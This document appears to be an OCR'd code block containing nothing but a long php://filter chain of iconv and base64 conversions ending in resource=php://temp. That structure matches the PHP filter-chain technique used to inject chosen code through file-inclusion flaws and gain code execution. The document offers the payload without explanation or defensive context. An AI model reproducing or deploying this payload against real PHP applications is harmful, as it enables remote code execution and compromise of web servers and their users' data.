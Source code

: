 ```bash
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```
